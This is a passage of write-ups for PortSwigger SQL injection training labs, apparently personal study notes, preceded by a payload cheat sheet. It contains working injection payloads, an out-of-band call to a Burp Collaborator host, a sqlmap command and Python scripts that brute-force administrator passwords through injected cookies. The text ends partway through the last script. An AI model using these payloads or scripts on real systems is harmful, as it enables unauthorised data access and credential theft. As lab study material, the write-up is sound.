Notes
| Database type | Query |
|---|---|
| Microsoft, MySQL | SELECT @@version |
| Oracle | SELECT * FROM v$version |
| PostgreSQL | SELECT version() |
# except oracle
SELECT * FROM information_schema.tables
(table_name)
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
(COLUMN_NAME)
# oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
' ORDER BY 1--
' UNION SELECT NULL,NULL--
# oracle DB - every select must have from
' UNION SELECT NULL FROM DUAL--
# finding a column
' UNION SELECT 'a',NULL,NULL,NULL--
# Retrieving multiple values within a single column
' UNION SELECT username || '~' || password FROM users--
# blind SQL Injection
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
# error based SQL Injection
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
# Extracting sensitive data via verbose SQL error messages
CAST((SELECT example_column FROM example_table) AS int)
# time delay
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
# out of bound
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
sqlmap -u "website" --cookie='auth=blabla; uuid=blabla' -p auth --level=2
Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet
1. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
Select any category to view products from that category and when I inserted ' it gave internal server error, next thing I have tried it simple OR query and it gave all the results because the resultant query will look like this:
SELECT * FROM products WHERE category = 'Pets' OR 1=1-- -' AND released = 1Solution:
/filter?category=Pets' OR 1=1-- -
2. Lab: SQL injection vulnerability allowing login bypass
This lab contains a SQL injection vulnerability in the login function. To solve the lab, perform a SQL injection attack that logs in to the application as the
administratoruser.
There in my accounts there is a login form and we have to login with administrator. With administrator as username and administrator as password, it gave invalid username or password. The query might be something like this SELECT * FROM users WHERE username = 'administrator' AND password = 'bluecheese'. So if we try to use similar technique from last challenge (using OR query) we can able to solve this challenge too.
Solution: username will be
administrator OR 1=1-- -and password can beanything.
3. Lab: SQL injection with filter bypass via XML encoding
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application’s response, so you can use a UNION attack to retrieve data from other tables. The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user’s credentials, then log in to their account.
Now, in this challenge if we click on any products and scroll down, we can see Check Stock button. We can see the request looks something like this.

We have to useto html entity in CyberChef in order to convert our payload into HTML entity to bypass WAF. Let’s get username first then we will get password the same way.


We got 3 usernames from thisadministrator
carlos
wiener
With similar technique we will get all the passwords


9li7uj3bs5dna7xwe50k
mmz0u9wkk04i83avtgix
a1zfu11iq22sqmw7dmhd
Solution: Login with
administratorand9li7uj3bs5dna7xwe50kwill solve the lab.
4. Lab: SQL injection attack, querying the database type and version on Oracle
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. To solve the lab, display the database version string.
It seems we have to grab the banner from the database. So firstly before making any union query, we have to check how many columns are required. So we have to use order by query for that Gifts' ORDER BY 2-- From 3 we are getting error, so we can say, we require 2 columns.
Now, making simple version union query will solve the lab.
Solution:
Gifts' UNION SELECT banner, NULL FROM v$version-- -
5. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. To solve the lab, display the database version string.
Similar to previous challenge, just syntax is different.
Solution:
'+UNION+SELECT+%40%40version,'test'%23
6. Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response so you can use a UNION attack to retrieve data from other tables. The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. To solve the lab, log in as the administrator user.
In this challenge, we have to get username and password from database. User’s table is not given, so we have to use information_schema in order to get tables from database.
Before using UNION query, we always have to check how many columns are required. For that we will use Gifts' ORDER BY 1-- query. After ORDER BY 3 we are getting Internal Server Error, so we can say total 2 columns are required in UNION query. Next thing we will do is, use information_schema to retrieve tables - Gifts' UNION SELECT TABLE_CATALOG, TABLE_NAME FROM information_schema.tables--

We found the tableusers_knbmer. Alright, now that we have table, we will find columns using the Gifts' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'users_knbmer'-- query.

Got 2 columns for username and password that isusername_mbsmup and password_xwqvyt. Now we have to get username and password from user’s table using this query - Gifts' UNION SELECT username_mbsmup, password_xwqvyt from users_knbmer--

Solution: Login with
administrator:gzor4sfsnzq0zoectxhpwill solve the lab.
7. Lab: SQL injection attack, listing the database contents on Oracle
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response so you can use a UNION attack to retrieve data from other tables. The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. To solve the lab, log in as the administrator user.
As as previous challenge, just syntax is different! So starting with UNION query to get required columns and we found 2 columns are required: query Gifts' ORDER BY 1--. Next thing is to get table name: query Gifts' UNION SELECT OWNER, TABLE_NAME FROM all_tables--. Wait a sec, how did I know we have to grab OWNER and TABLE_NAME? You can use online compilers in order to check which what kind of data are present in database. Check this out: https://onecompiler.com/oracle/434u59np3
Moving to next part, grab column names: Gifts' UNION SELECT TABLE_NAME, COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_ZJOEDW'--. We found username and password USERNAME_CYNJET, PASSWORD_MQKNXO.
Final part is to get the content of the columns: Gifts' UNION SELECT USERNAME_CYNJET, PASSWORD_MQKNXO from USERS_ZJOEDW--

Solution: Login with
administrator:qlwc755mwk6ge1qsb6uuwill solve the lab.
8. Lab: SQL injection UNION attack, determining the number of columns returned by the query
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.
We simply have to determine number of columns in the database using UNION NULL queries
Solution:
Pets' UNION SELECT NULL,NULL,NULL--
9. Lab: SQL injection UNION attack, finding a column containing text
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.
Like last challenge, we have to determine number of column using UNION NULL query and then we have to retrieve the string.
Solution:
Gifts' UNION SELECT NULL,'n1okPs',NULL--
10. Lab: SQL injection UNION attack, retrieving data from other tables
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs. The database contains a different table called users, with columns called username and password. To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
Very straightforward challenge, we have been given the table name with column names, we just have to use union query to get creds and then login with that creds. Query: Gifts' UNION SELECT username, password from users--
Solution: Login with this credentials
administrator:1hrjomh0ztxpf3e44mh5
11. Lab: SQL injection UNION attack, retrieving multiple values in a single column
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application’s response so you can use a UNION attack to retrieve data from other tables. The database contains a different table called users, with columns called username and password. To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
For this challenge, we have to determine how many columns are required and which column contains text and after that we have to concentrate using || ~ || to get username and password with the following query we can able to retrieve information.
Query: Pets' UNION SELECT NULL,username || '~' || password FROM users--
Solution: Login with
administrator:taponkgg8eqvhi5679wr
12. Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.
So, in theory we have to check if the website is vulnerable to SQL Injection with simple condition query. So here is the true case of the query with payload ' AND 1=1--

We can seeWelcome back! in response. Now let’s try to execute false payload query ' AND 1=2--

We cannot be able to seeWelcome back! in response. So this means that the website is vulnerable to SQL Injection attack. Perfect! Now let’s try to use substring query in order to get password.
Simply using substring script will give us the password. We have to check the character at each position, so I have wrote python script to do the same. If you want to use the same script, you have to change trackingId, session, csrf values.
import requests
import string
characters = string.ascii_lowercase + string.digits
print(characters)
passwd = ""
for position in range(20):
for character in characters:
print(f'trying {character} at position {position}')
url = 'https://0aa2005204fb8621828dc511004c0081.web-security-academy.net/login'
json_data = {
'csrf': 'LvxFkchjMqheMJHFbzdAUdFl511exmyD',
'username': 'abc',
'password': 'abc'
}
query = f"S4CgBSuHDyj19tCQ' AND (SELECT SUBSTRING(password,{position+1},1) FROM users WHERE username='administrator')='{character}"
cookies = {'TrackingId': query, 'session': 'TUhkJtpGRKK1bUBjaE0pO6BFKKnIgviJ'}
response = requests.post(url, cookies=cookies, data=json_data)
if 'welcome back' in response.text.lower():
passwd += character
break
position += 1
print(passwd)
print(passwd)Solution: Login with
administrator:trxkur84glam1e9aymx9
13. Lab: Blind SQL injection with conditional errors
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.
Similar python program as before, just the query is different. If you want to use the same program, change csrf, trackingID, session and url.
import requests
import string
characters = string.ascii_lowercase + string.digits
print(characters)
passwd = ""
for position in range(22):
for character in characters:
print(f'trying {character} at position {position}')
url = 'https://0aaf008204b0f542804862ac00db00ac.web-security-academy.net/login'
json_data = {
'csrf': 'YC3io2kYSmIz1bpUJKkj2Sk6O3TXEDKC',
'username': 'abc',
'password': 'abc'
}
query = f"7XoGU7FEnjwaB98s'||(SELECT CASE WHEN SUBSTR(password,{position+1},1)='{character}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
cookies = {'TrackingId': query, 'session': '03G1OHc8zcgtwCaq8LeFLYBC4Id5BvvX'}
response = requests.post(url, cookies=cookies, data=json_data)
if 'internal server error' in response.text.lower():
passwd += character
break
position += 1
print(passwd)
print(passwd)Solution: Login with
administrator:se92ecqvswnwp82oyyj8will solve the lab
14. Lab: Visible error-based SQL injection
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned. The database contains a different table called
users, with columns calledusernameandpassword. To solve the lab, find a way to leak the password for theadministratoruser, then log in to their account.
Just by adding a quote will give us the error.

Now, let’s use CASE query
It says the argument must be type boolean, so we have to modify our query based on this error. Modified query is' AND 1=CAST((SELECT 1) AS int)-- which will not give any error, so that means, the query is valid. Now, let’s try to grab usernames from database using this query ' AND 1=CAST((SELECT username FROM users) AS int)--

The error says more than one row returned by a subquery used as an expression, so we have to limit the results to 1. So the resultant query will be' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- which will give us the username administrator. Now in order to get the password, simply change username to password in query ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

Solution: Login with
administrator:b2jg0ij1mwruscn3yfltwill solve the lab
15. Lab: Blind SQL injection with time delays
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.
Simply using sleep payload will solve the lab
Solution:
'||pg_sleep(10)--
16. Lab: Blind SQL injection with time delays and information retrieval
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.
Similar to above scripts, we just have to use query with delay and track response timings.
import requests
import string
import time
characters = string.ascii_lowercase + string.digits
print(characters)
passwd = ""
for position in range(22):
for character in characters:
print(f'trying {character} at position {position}')
url = 'https://0a3300a603048502810f0db100c3000f.web-security-academy.net/login'
json_data = {
'csrf': 'IZyXQoM5Uyr9E12EgInZhjDJd4k7YRpt',
'username': 'abc',
'password': 'abc'
}
